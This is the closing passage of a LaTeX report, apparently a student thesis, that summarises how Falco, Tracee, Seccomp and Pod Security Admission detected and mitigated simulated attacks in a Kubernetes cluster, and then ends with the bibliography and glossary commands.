Then, we implemented a custom event handler, which can extract the pod name and namespace from Falco and Tracee logs. This fact proves that it is possible to set up automated security responses, like tagging and restarting compromised pods, and connect runtime alerts with larger security measures in a cloud-native environment. All the three attacks that we simulated have been detected and managed as expected from Falco, Tracee and their respective handlers.

Additionally, we also set up security measures, like Seccomp and \acrlong{psa}. In particular talking about Seccomp we tried the default profile with no particular policies and a custom one locking some syscalls that are specifically linked to some kind of attacks and actions that are not usual in the normal behavior of our application. This effectively mitigated the attacks. Also for \ac{psa} we obtained good results because the new Restricted namespace forced us to create a pod that was designed to force the security by design principle, setting it as non-privileged, non-root and so on. The combination of these tools enable a proactive approach to block misconfigured workloads.

Overall, this work shows that using Falco and Tracee together with Kubernetes feauters like Seccomp and PSA gives a strong way to discover, investigate and stop security issues in containerized environments. Based on the usage we can also choose between a tool more oriented to monitoring like Falco, or another one that is suitable for forensic analysis like Tracee.



% ==========================
% ACRONYMS
% ==========================
\printglossary[type=\acronymtype]

% ==========================
% BIBLIOGRAPHY
% ==========================
\printbibliography  % Prints the bibliography
\addcontentsline{toc}{section}{References}
\pagebreak

% ==========================
% APPENDIX
% ==========================
%\appendix
%\include{chapters/appendix}

\end{document}
